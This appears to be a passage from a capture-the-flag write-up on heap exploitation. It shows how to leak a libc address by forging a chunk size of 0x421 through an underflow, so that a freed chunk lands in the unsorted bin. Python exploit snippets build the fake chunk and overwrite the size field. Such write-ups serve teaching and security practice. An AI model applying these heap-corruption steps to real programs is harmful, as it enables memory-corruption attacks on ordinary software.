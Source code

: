 

As usual the firs think we have to do is to leak the libc. This proves to be a bit of a challenge since we can only work with one chunk at a time(at index 0). So there are 2 things we need to do in order to get the leak from the heap.

Put some libc addresses on the heap and then read them.

first 3 chunks that we put on the heap are for later use ignore them for now.

```
create(0,0x10,b'aAA') <--- chunk D
create(0,0x40, b'VVV') <--- chunk E

create(0,0x90,"FFFFFF") <--- chunk F
```

## unsorted bin

Usually how we get libc addresses on heap is by using unsorted bins. The idea is to malloc a large enough chunk(>0x408) that when freed it ends up in the unsorted bin. At that point libc addresses are put in its fw and bk pointers. The problem we are facing is that when a big chunk like that is freed and there are no other chunks between it and the top chunk it will get consolidated and our plan won't work.

So the way I deal with this is to malloc enough chunks so that their combined size is greater than 0x408 and then using the underflow change the first chunk's size to 0x421 and then free it. by doing that there will be at least one chunk between our fake chunk that I resized and the top chunk so it will not get consolidated. 

```
create(0,0x60,0x20*b'A') <----- chunk A. We will resize this one to 0x421
create(0,0x200,0x20*b'B') <---- chunk B. This one we will use to perform the underflow

create(0,0x70,0x70*b'C') 
reset(0)
create(0,0x70,0x70*b'C')
reset(0)
create(0,0x70,0x70*b'G')
reset(0)
payload= b'R'*16
payload += p64(0x420)
payload += p64(0x61)
payload += p64(0)
payload += p64(0)
create(0,0x70,payload) <------- chunk C. Inside this one we create a fake chunk to pass the chek for freeing into unsorted bin


reset(0)
payload = b'B' * 0x7e <------ payload to overflow char
payload += b"\x00" * 10 <-------- some padding so the next line lands on the size of chunk A
payload += p64(0x421) <----- this will overwrite the size of chunk A to 0x421 using the underflow
create(0,0x200,payload) <---- chunk B that is returned from tcache
```
